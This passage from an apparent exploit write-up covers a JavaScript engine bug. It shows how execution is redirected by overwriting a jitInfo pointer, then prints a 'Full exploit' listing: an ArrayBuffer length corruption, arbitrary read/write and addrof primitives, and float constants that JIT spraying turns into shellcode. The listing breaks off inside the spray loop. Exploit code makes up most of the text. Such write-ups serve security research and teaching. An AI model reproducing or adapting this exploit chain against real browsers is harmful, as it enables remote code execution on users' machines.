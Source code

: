 With that last problem out of the way, transferring execution to our shellcode is actually quite easy because we can just write to the jitInfo pointer with the location of our shellcode:

```
write64(jitinfo, shellcode_location);
shellcode();
```

With this, we modified the native code that is executed whenever we call the shellcode function. Remember that before we did define some constants but it was never intended to be code – just (constant) data. By setting the jitInfo pointer forward to these constants we make it code! With this last part being done, we now have a full PoC and can run it to execute commands:

**Full exploit**

```
// create an ArrayBuffer A and set its length to a large value
aBuf = new ArrayBuffer(80);
aBuf.byteLength = 1000;
aBuf = new BigUint64Array(aBuf)
 
// create a second ArrayBuffer B to have an adjacent object
bBuf = new ArrayBuffer(80);
bBufTyped = new BigUint64Array(bBuf)
 
function read64(addr){
    // overwrite metadata, pointer to data
    aBuf[15] = addr
    let typedB = new BigUint64Array(bBuf)
    return typedB[0]
}
 
function write64(addr, value){
    // overwrite metadata, pointer to data
    aBuf[15] = addr
    // access B as a TypedArray to get a 64 bit value back
    let typedB = new BigUint64Array(bBuf)
    // set first element (exactly where the changed data pointer points to)
    typedB[0] = value
}
 
function addrof(obj){
    // Set a new property on the ArrayBuffer, its pointer will be pointed to by the slots pointer (offset 13)
    bBuf.leak = obj
    // read the slots pointer back
    _slots = aBuf[13]
    // dereference the slots pointer and return it (while masking off any pointer tagging)
    return read64(_slots) & 0xffffffffffffn
}
 
function shellcode (){
    EGG = 5.40900888e-315;          // 0x41414141 in memory, marker to find
    C01 = -6.828527034422786e-229;  // 0x9090909090909090
    C02 = 6.867659397734779e+246     
    C03 = 7.806615353364766e+184
    C04 = 2.541954188459429e-198
    C05 = 3.2060568060029287e-80
    C06 = 3.4574612453438036e+198
    C07 = 7.57500810708945e-119
    C08 = 1.0802257739008538e+117
    C09 = -6.828527034370483e-229
}
 
// JIT Spray - will make sure the constants are compiled to native code and create our shellcode
for (let i = 0; i < 100000; i++) {
```